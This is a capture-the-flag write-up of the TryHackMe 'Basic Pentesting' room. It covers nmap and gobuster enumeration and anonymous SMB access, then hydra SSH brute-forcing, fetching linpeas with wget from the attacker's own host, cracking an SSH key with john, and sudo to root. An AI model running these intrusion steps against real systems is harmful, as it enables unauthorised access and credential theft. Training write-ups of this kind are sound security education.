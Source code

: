# Writeup for [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) from [Try Hack Me](https://tryhackme.com)

## Table of Contents
[Setting Up](#setting-up)  
[Information Gathering and Enumeration](#information-gathering-and-enumeration)  
[Gaining Access](#gaining-access)  
[Privilege Escalation](#privilege-escalation)  

## Setting Up
1. Make sure you are connected to the TryHackeMe VPN Network.
2. Make sure you have deployed the machine and there is a valid IP Address that you can hit.
3. If any of this sound unfamiliar, please consult the Try Hack Me help page.

## Information Gathering and Enumeration
To start things off, we should run an nmap scan on the machine.  
```
nmap -v -sC -sV -oN nmap/initial 10.10.2.82
```  
>Arguments:
>1. -v -> verbose mode
>2. -sC -> Use nmap default script
>3. -sV -> enumerate service versions
>4. -oN -> output normal format in the nmap directory with the file called initial
>5. 10.10.2.82 -> IP address of the victim machine

After running the nmap scan, we should see our results in the nmap directory.  
I am using `less` to view the results.

![nmap results](./img/nmap-result.png)  

We can see quite a few services running on this server. But I would like to start with those http services on port 80 and 8080. Those samba shares might also contain some juicy info.  
We should hit that http server on port 80 by searching the victim IP address in our web browser with the http schema (http://10.10.2.82).  

We see a page that says that it is undergoing maintencance.    

![port80-undergoing-maintencance](./img/port80-undergoing-maintencance.png)  


If we view the page source for this particular page, then we could see some comments from the devs.    

![port80-maintencance-source](./img/port80-maintencance-source.png)  

Based on this comment, we could assume that there will be a developers page or something of the sort. So let's investigate.  
I'm going to use a tool called `gobuster` to fuzz directories.
```
gobuster dir -u http://10.10.2.82 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/port80-root
```
>Arguments:
>1. dir -> specify directory fuzzing mode
>2. -u -> url
>3. -w -> wordlist to use ( I use [SecLists](https://github.com/danielmiessler/SecLists) ( SecLists is also in the kali repos ))
>4. -o -> outfile to the directory gobuster with the file called port80-root

While that is running in the background we should check those samba shares.  
We can use the default `smbclient` tool on Linux.
```
smbclient -L \\\\10.10.2.82\\
```
>Arguments:
>1. -L -> List shares

We could try using anonymous login by typing the password as anonymous or leaving it blank is also fine.  

![smb-list](./img/smb-list.png)  

After knowing the name of the share we could simply connect to that share with anonymous login once again.  

![smb-connect](./img/smb-connect.png)  

After that we can run `ls` to list all files and directories in that share, and we see staff.txt. We can download that file by running `get staff.txt`.

![staff-txt](./img/staff-txt.png)  

We can see potential users on the box from that staff.txt which are `jan` and `kay`. We should write that to a file to potentially brute-force passwords againts SSH on the box. I will write it to a file called creds.txt where every entry is on its own line.  

Going back to our gobuster scan, we found a peculiar directory called **development**.  

![gobuster-development](./img/gobuster-results.png)  

After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.

After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.  

![port80-dev](./img/port80-dev.png)

![wget-dev](./img/wget-dev.png)  

From reading j.txt we can assume that one of the users has a weak password. We could assume J stands for the user jan and K for the user kay.
Weak password are always good for us as attackers because we can probably brute-force that password using a popular wordlist like **rockyou.txt**. ( If you are using Kali or Parrot, it's in /usr/share/wordlist/rockyou.txt )  

## Gaining Access
I'm going to use a brute-forcing tool called `hydra`. And we are going to use that file that we created, creds.txt.
```
hydra -L creds.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.2.82
```
>Arguments:
>1. -L -> List of users
>2. -P -> List of passwords
>3. ssh:// -> bruteforce the SSH Protocol ( default port 22 , change if necessary )  

Give it some time depending on your hardware, and we should get some passwords.  

![hydra-result](./img/hydra-result.png)  

We found jan's password which we can use to authenticate via ssh to the box.
We should also update our creds.txt file for that password, just to keep track.

```
ssh jan@10.10.2.82
```  
## Privilege Escalation

Once we gain access we should try some low hanging fruit like `sudo -l` since we know jan's password. Sadly jan can't run sudo on this box, so we should try some automated enumeration to look for more low hanging fruit.  
I personally love to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git), so let's upload this script to the box.

On the directory where linpeas is stored, run `python3 -m http.server` to run a simple http server.

![linpeas-attacker](./img/linpeas-attacker.png)  

On the victim machine, navigate to a more isolated directory ( I use /dev/shm ) and run `wget http://[YOUR IP ADDRESS]:8000/linpeas.sh`
( To check your tryhackme IP address, run `ip a s tun0` on your machine.)

![linpeas-victim](./img/linpeas-victim.png)  

Mark the script as executable with `chmod +x linpeas.sh` and just run the script. I usually like to keep a copy of the results so I will also tee it
`./linpeas.sh | tee linpeas.log`  

There will be a lot of output from linpeas, and if you want to view the log file, we can use `less -r linpeas.log`.  

From reading the output of linpeas, I found that kay has an SSH private key accessible to us.

![kay-ssh](./img/kay-ssh.png)  

We can just cat the id_rsa file which is the private key used to authenticate via ssh, and copy it to our local box. We could see that this ssh key is encrypted by reading the first few lines of the file, so we are going to need to decrypt it.  
We are going to use a tool called John The Ripper ( john ).    

First of all we need to convert this encrypted id_rsa file to something that john can decrypt, so there is a script called ssh2john.py.
`ssh2john kay-id_rsa > kay-for_john`

We are going to use this script on a file called `kay-id_rsa` and output it to `kay-for_john`.  
After that, we could just run `john kay-for_john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

![john-result](./img/john-result.png)  

We got the password which is **beeswax**. Now we can use that id_rsa file to authenticate as kay on the box.
`ssh -i kay-id_rsa kay@10.10.2.82`  
Also make sure that we `chmod 600 kay-id_rsa` first so ssh doesn't whine to us that this sshkey is not protected.

![kay-login](./img/kay-login.png)  

Looking at kay's home directory, we can see a pass.bak file that looks like a password when we cat it out. We should test if this is kay's password with `sudo -l`.  
Looks like I was spot on, and we can run anything in this box as root ( from sudo ).

![kay-password](./img/kay-password.png)  

We could simply run `sudo bash` and we should get a root shell!
  
![root-shell](./img/root-shell.png) 